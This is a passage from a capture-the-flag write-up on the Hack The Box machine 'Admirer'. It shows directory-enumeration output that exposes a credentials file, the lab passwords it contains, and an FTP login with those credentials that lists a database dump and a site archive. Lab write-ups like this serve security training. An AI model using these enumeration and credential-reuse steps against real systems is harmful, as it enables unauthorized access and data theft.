 ===============================================================
http://10.10.10.187/admin-dir/.htpasswd (Status: 403)
http://10.10.10.187/admin-dir/.htpasswd.php (Status: 403)
http://10.10.10.187/admin-dir/.htpasswd.txt (Status: 403)
http://10.10.10.187/admin-dir/.htaccess (Status: 403)
http://10.10.10.187/admin-dir/.htaccess.php (Status: 403)
http://10.10.10.187/admin-dir/.htaccess.txt (Status: 403)
http://10.10.10.187/admin-dir/contacts.txt (Status: 200)
http://10.10.10.187/admin-dir/credentials.txt (Status: 200)
===============================================================
2020/08/27 07:23:11 Finished
===============================================================
{% endhighlight %}

The credentials text file stands out, let's see what's inside that:

{% highlight text %}
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
{% endhighlight %}

Here find credentials for Internal mail, FTP, and wordpress. At this point we only know how to access the FTP so let's try that:

{% highlight bash %}
kali@kali:~/HTB/Admirer$ ftp 10.10.10.187
Connected to 10.10.10.187.
220 (vsFTPd 3.0.3)
Name (10.10.10.187:kali): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
226 Directory send OK.
ftp>
{% endhighlight %}

Looks like we have access to two files ***dump.sql*** & ***html.tar.gz***. Let's pull them down to have a look at:
